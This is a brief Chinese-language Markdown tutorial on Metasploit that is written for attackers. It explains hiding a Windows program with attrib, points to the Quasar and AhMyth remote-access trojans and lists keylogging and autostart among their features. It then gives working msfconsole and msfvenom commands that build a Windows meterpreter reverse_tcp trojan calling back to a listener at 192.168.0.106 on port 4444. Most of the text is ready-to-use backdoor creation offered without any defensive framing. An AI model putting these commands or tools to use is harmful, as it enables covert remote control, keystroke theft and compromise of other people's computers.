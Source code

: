 # msf教程

```
attrib +h 应用程序   # 隐藏windows应用程序
```



简单的木马工具，quasar，github地址：https://github.com/quasar/Quasar/releases/tag/v1.4.0，注意需要安装.net，win10自带。

quasar的功能：

-   自启动；
-   键盘记录；
-   进程管理；
-   注册表管理；
-   计划任务管理；
-   文件管理；
-   CommandLine；
-   ……



Android：https://github.com/AhMyth/AhMyth-Android-RAT



metasploit：

```
apt-get update
apt-get upgrade
```

## 生成后门

### x86-windows

```
msfconsole -q   # 表示快速打开，不显示banner信息
use exploit/multi/handler   # 使用这个模块
show payloads   # 查看模块下的所有payload
set payload windows/meterpreter/reverse_tcp   # 为当前的模块设置payload
run/exploit     # 开始监听


使用msfvenom命令生成对应的木马文件：
msfvenom -l format     # 查看木马所支持的文件类型

msfvenom -p windows/meterpreter/reverse_tcp -f exe -a x86 --platform windows -o ./meter_re_tcp.exe lhost=192.168.0.106 lport=4444  # 生成木马文件
	-p  # payload
	-f  # 木马的文件格式
	-a  # 系统的架构
	--platform    # 操作系统
	-o  # 输出文件位置
	lhost  # 本地ip地址
	lport  # 本地端口
```
